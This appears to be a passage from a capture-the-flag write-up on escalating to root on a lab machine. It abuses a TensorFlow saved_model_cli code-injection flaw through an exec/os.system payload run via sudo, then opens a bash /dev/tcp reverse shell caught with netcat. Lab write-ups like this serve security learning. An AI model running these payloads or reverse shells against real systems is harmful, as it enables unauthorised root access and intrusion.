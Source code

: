 ```Python
for i in range(len(Xnew)):
     t = threading.Thread(target=assessData, args=(i,))
#     t.daemon = True
     t.start()

```


while reading the script we found the vulnerabile object
`from tensorflow.python.tools.saved_model_cli import preprocess_input_exprs_arg_string` 

We found a vulnerable cve that could by-stand our findings `https://github.com/advisories/GHSA-75c9-jrh4-79mc`

###Proof of concept

`hello=exec("""\nimport os\nos.system("id > /tmp/id.txt")""")` use the script in `/esclate`  and run the command
`sudo ./ml_security.py`

```
diego@forgot:/tmp$ cat id.txt 
uid=0(root) gid=0(root) groups=0(root)
```

For getting shell access:

Create a file named `shell.sh` in `/tmp` directory with the following script and change its execute permission.

```Bash
#!/bin/bash
bash -i >&  /dev/tcp/ip/port 0>&1
```

Set up a netcat listening and `hello=exec("""\nimport os\nos.system("bash /tmp/shell.sh")""")`  use the script in `/esclate` .

```
listening on [any] 7878 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.11.188] 51156
root@forgot:/opt/security# 
```
